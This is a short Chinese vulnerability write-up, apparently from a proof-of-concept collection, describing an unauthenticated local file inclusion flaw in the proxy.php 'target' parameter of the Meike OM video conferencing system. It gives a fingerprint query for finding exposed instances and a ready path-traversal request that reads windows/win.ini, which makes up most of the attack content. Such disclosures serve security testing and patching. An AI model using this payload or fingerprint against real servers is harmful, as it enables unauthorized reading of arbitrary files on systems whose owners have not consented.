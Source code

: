 # 

# 魅课 OM视频会议系统 proxy.php 文件包含漏洞

## 漏洞描述

魅课OM视频会议系统 proxy.php文件target参数存在本地文件包含漏洞。攻击者可借助该漏洞无需登录便可下载任意文件。

## 漏洞影响

```
魅课OM视频会议系统
```

## 网络测绘

```
app="OMEETING-OM视频会议"
```

## 漏洞复现

登录页面

![image-20220525153028849](./images/202205251530024.png)

验证POC

```
/admin/do/proxy.php?method=get&target=../../../../../../../../../../windows/win.ini
```

![image-20220525153105283](./images/202205251531338.png)
